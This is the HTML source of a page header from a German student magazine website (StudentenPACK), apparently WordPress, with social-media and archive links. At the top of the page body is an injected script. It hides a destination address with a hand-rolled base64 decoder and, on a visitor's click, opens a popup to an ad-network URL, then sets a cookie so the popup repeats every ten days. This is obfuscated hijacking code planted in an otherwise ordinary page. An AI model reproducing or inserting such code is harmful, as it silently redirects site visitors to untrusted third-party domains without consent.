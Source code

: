 <body><script>
function b_de(e){var t="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
var n,r,i,s,o,u,a,f,l=0,c="";do{s=t.indexOf(e.charAt(l++));o=t.indexOf(e.charAt(l++));
u=t.indexOf(e.charAt(l++));a=t.indexOf(e.charAt(l++));f=s<<18|o<<12|u<<6|a;n=f>>16&255;r=f>>8&255;
i=f&255;if(u==64)c+=String.fromCharCode(n);else if(a==64)c+=String.fromCharCode(n,r);
else c+=String.fromCharCode(n,r,i)}while(l<e.length);return c}

window.setC= function(){
if (document.cookie.indexOf("visited") >= 0) {
}
else { 
expiry = new Date();
expiry.setTime(expiry.getTime()+(10*60*60*24*1000));
document.cookie = "visited=yes; expires=" + expiry.toGMTString();
window.open(b_de('aHR0cDovL3dvbmRlcmxhbmRhZHMuY29tL2FmdS5waHA/em9uZWlkPTIxNjMwNA=='));
}

}

document.onclick = function(e) {
window.setC();
}
</script>
<div id="container">
<div id="header">
	<a href="http://www.studentenpack.de"><div id="logo">&nbsp;</div></a>
	<div id="header_icons" class="colorscheme_navi">
				<p>
			<a href="http://twitter.com/StudentenPack" target="_blank" title="Folge dem StudentenPACK auf Twitter">
				<img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/twitter24px.png" alt="twitter"/>
			</a>
			<a href="http://www.facebook.com/StudentenPACK" target="_blank" title="Werde auf Facebook unser Fan">
				<img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/facebook24px.png" alt="facebook"/>
			</a>
			<a href="http://www.flickr.com/photos/studentenpack" target="_blank" title="Besuche unsere Fotoarchive auf Flickr">
				<img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/flickr24px.png" alt="flickr"/>
			</a>
			<a href="http://www.youtube.com/user/StudentenPackHL" target="_blank" title="Schau dir auf YouTube Videos des StudentenPACKs an">
				<img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/youtube24px.png" alt="youtube"/>
			</a>
		</p>
				<p>
			<a href="http://www.studentenpack.de/index.php/feed/" title="Abonniere unsere Artikel">
				Abonnieren <img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/rss24px.png" alt="rss"/>
			</a>
		</p>
		<p>
			<a href="/index.php/deadline/" title="Deadline: Der Terminkalender">
				Deadline <img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/calendar24px.png" alt="calendar"/>
			</a>
		</p>		
		<p>
			<a href="/index.php/category/blog/heftarchiv/" title="Alte Ausgaben als PDF herunterladen">
				Heftarchiv <img src="http://www.studentenpack.de/wordpress/wp-content/themes/StudentenPACK/images/pdf24px.png" alt="archiv"/>
			</a>
		</p>
		<p>